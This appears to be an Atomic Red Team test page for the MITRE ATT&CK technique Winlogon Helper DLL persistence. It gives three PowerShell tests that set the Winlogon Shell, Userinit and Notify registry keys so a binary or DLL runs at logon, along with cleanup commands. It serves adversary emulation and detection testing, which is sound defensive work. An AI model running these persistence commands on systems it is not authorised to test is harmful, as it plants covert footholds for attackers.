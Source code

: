 # T1547.004 - Winlogon Helper DLL
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1547.004)
<blockquote>Adversaries may abuse features of Winlogon to execute DLLs and/or executables when a user logs in. Winlogon.exe is a Windows component responsible for actions at logon/logoff as well as the secure attention sequence (SAS) triggered by Ctrl-Alt-Delete. Registry entries in <code>HKLM\Software[\\Wow6432Node\\]\Microsoft\Windows NT\CurrentVersion\Winlogon\</code> and <code>HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\</code> are used to manage additional helper programs and functionalities that support Winlogon. (Citation: Cylance Reg Persistence Sept 2013) 

Malicious modifications to these Registry keys may cause Winlogon to load and execute malicious DLLs and/or executables. Specifically, the following subkeys have been known to be possibly vulnerable to abuse: (Citation: Cylance Reg Persistence Sept 2013)

* Winlogon\Notify - points to notification package DLLs that handle Winlogon events
* Winlogon\Userinit - points to userinit.exe, the user initialization program executed when a user logs on
* Winlogon\Shell - points to explorer.exe, the system shell executed when a user logs on

Adversaries may take advantage of these features to repeatedly execute malicious code and establish persistence.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Winlogon Shell Key Persistence - PowerShell](#atomic-test-1---winlogon-shell-key-persistence---powershell)

- [Atomic Test #2 - Winlogon Userinit Key Persistence - PowerShell](#atomic-test-2---winlogon-userinit-key-persistence---powershell)

- [Atomic Test #3 - Winlogon Notify Key Logon Persistence - PowerShell](#atomic-test-3---winlogon-notify-key-logon-persistence---powershell)


<br/>

## Atomic Test #1 - Winlogon Shell Key Persistence - PowerShell
PowerShell code to set Winlogon shell key to execute a binary at logon along with explorer.exe.

Upon successful execution, PowerShell will modify a registry value to execute cmd.exe upon logon/logoff.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| binary_to_execute | Path of binary to execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, #{binary_to_execute}" -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name "Shell" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Winlogon Userinit Key Persistence - PowerShell
PowerShell code to set Winlogon userinit key to execute a binary at logon along with userinit.exe.

Upon successful execution, PowerShell will modify a registry value to execute cmd.exe upon logon/logoff.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| binary_to_execute | Path of binary to execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, #{binary_to_execute}" -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name "Userinit" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Winlogon Notify Key Logon Persistence - PowerShell
PowerShell code to set Winlogon Notify key to execute a notification package DLL at logon.

Upon successful execution, PowerShell will modify a registry value to execute atomicNotificationPackage.dll upon logon/logoff.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| binary_to_execute | Path of notification package to execute | Path | C:&#92;Windows&#92;Temp&#92;atomicNotificationPackage.dll|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify" -Force
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify" "logon" "#{binary_to_execute}" -Force
```

#### Cleanup Commands:
```powershell
Remove-Item "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify" -Force -ErrorAction Ignore
```





<br/>
